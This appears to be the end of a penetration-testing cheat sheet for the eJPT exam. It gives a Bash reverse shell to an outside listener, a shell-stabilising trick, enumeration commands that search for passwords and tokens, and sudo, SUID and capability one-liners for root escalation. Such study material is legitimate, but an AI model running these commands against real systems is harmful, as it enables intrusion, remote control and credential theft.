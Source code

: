 ```
# Reverse shell (example Bash; replace IP/port)
bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'

# TTY upgrade
python3 -c 'import pty; pty.spawn("/bin/bash")'; export TERM=xterm

# Local enum
id; uname -a; ip a; ss -tulpn; sudo -l
find / -perm -4000 -type f 2>/dev/null
getcap -r / 2>/dev/null
ls -la /etc/cron*; cat /etc/crontab
grep -RniE "passw|secret|token|key" /var/www /opt /home 2>/dev/null | head

# Common privesc (examples)
# sudo find: sudo find . -exec /bin/sh -p \; -quit
# SUID find: /usr/bin/find . -exec /bin/sh -p \; -quit
# Cap python: python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

## Summary
- This is a pragmatic, exam-ready black box Linux workflow: discover, enumerate, exploit, escalate, and loot.
- Prioritize targeted enumeration and low-hanging fruit: web content discovery, anonymous/writable services, leaked creds.
- Use standard reverse shells and stabilize your session; then methodically check sudo, SUID, crons, capabilities, and configs.
- Document everything. LinPEAS and GTFOBins accelerate progress, but understanding the “why” behind each step is key for eJPT and beyond.
